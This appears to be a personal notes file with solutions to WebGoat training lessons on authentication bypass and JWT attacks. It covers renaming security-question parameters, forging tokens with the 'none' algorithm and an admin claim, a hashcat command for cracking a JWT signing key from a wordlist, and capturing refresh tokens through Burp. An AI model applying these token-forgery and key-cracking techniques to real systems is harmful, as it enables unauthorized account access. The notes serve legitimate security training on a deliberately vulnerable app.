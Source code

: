 # Authentication Bypass
### 2
	Method from the story doesn't work.
	But tempering with the names of the variables does.
	Change variable names to 'SecurityQuestionA' and 'SecurityQuestionB'.

# JWT Tokens
### 3
	Paste token to the WebWolf JWT tab and find name "user".
### 5
	Eavesdrop JWT from Tom.
	Put it to WebWolf and change:
	1. {
		"alg" : null
		}
	2. {
		"admin" : "true",
		"iat" : 1649869119, # this may be different
		"user" : "Tom"
		}

### 5
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parseClaimsJws-java.lang.String-
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parse-java.lang.String-

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0. = 
{
  "alg" : "none",
  "typ" : "JWT"
}
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}

1. Solution 1
2. Solution 3

### 8
Looked for dictionary: https://github.com/first20hours/google-10000-english

hashcat --force -m 16500 <token> google-10000-english.txt.
while knowing secret key: https://jwt.io/.
change username to WebGoat and change expiration date.
paste secret key in the bottom, without "secret base64 encoded".
copy "encoded" field.

### 10
open page 10 while in burp's browser
go to http history
find http://localhost:8080/WebGoat/JWT/refresh/login
find:
{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
and
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "vojbCZRRdMKjdIaAifZY"
}